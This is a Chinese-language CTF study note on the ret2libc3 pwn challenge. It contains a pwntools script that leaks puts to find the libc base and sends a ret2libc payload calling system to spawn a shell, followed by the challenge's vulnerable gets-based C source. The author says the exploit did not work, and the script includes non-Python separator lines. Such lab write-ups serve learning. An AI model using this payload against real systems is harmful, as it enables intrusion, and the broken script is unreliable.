 ```python
from pwn import *
io = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc-2.23.so')

---- 适配"远程" ----
io.sendlineafter(b" :", str(elf.symbols["puts"]))
io.recvuntil(b" : ")
-------------------

---- 返回字符串并转化为int,16进制 ----
libcBase = int(io.recvuntil(b"\n", drop=True), 16) - libc.symbols["puts"]
------------------------------------

# debug
success("libcBase -> {:#x}".format(libcBase))

payload = flat(cyclic(60), libcBase + libc.symbols['system'], 0xdeadbeef, next(elf.search(b"sh\x00")))

io.sendlineafter(b" :", payload)

io.interactive()

```

* 虽然这个没有打通，但是基本思想学习了很多
* 没打通的原因：库的错误使用















##### Q3 分析

> 无`"/bin/sh"`，也无`system@plt`
>

查看源码，且无PIE，只有NX

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s);
  return 0;
}
```
